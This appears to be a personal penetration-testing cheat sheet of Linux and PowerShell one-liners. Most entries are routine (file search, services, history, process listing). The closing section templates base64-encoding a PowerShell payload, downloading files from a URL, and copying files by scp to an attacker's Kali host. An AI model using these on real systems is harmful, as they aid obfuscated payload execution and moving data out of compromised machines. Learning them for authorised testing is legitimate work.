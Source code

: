 Locate file by name:
`locate <filename>`

Find commands:
`man -k <regex search term>`

Find command location:
`which <command>`

Find and replace in file:
`sed -i ‘s/<search term>/<replace term>/g’ <target filename>`

Change Password:
`passwd`

Start SSH:
`sudo systemctl start ssh`
`sudo ss -antlp | grep sshd`

Start HTTP:
`sudo systemctl start apache2`
`sudo ss -antlp | grep apache`
`python3 -m http.server 80`

See All Available Services:
`systemctl list-unit-files`

Install Shit Locally:
`sudo dpkg -i ./<path to .deb file>`

Assign New Environment Variable:
`export NEW-VARIABLE-NAME=VALUE-TO-ASSIGN-IT-TO`

Inspect Existing Environment Variables:
`env`

View Session Command History:
`history`

Rerun Command From History:
`!<line number of command as displayed in history>`
OR
`!!` to execute the last command run

Monitor CPU Usage:
`watch -n 1 ps aux --sort=%cpu | head -n 10`

Get PID:
`ps | grep <thing you want to find>`
eg. `ps | grep firefox`

Powershell or CMD:
`(dir 2>&1 *`|echo CMD);&<# rem #>echo Powershell`

Powershell Convert to Base64:
`[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('<insert payload here>'))`

Powershell Convert from Base64:
`[Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('<insert payload here>'))`

Powershell Download From URL:
`(New-Object System.Net.WebClient).DownloadFile("<URL>","C:\path\to\destination")`

Powershell SCP:
`scp filename.txt kali@<our IP>:/home/kali`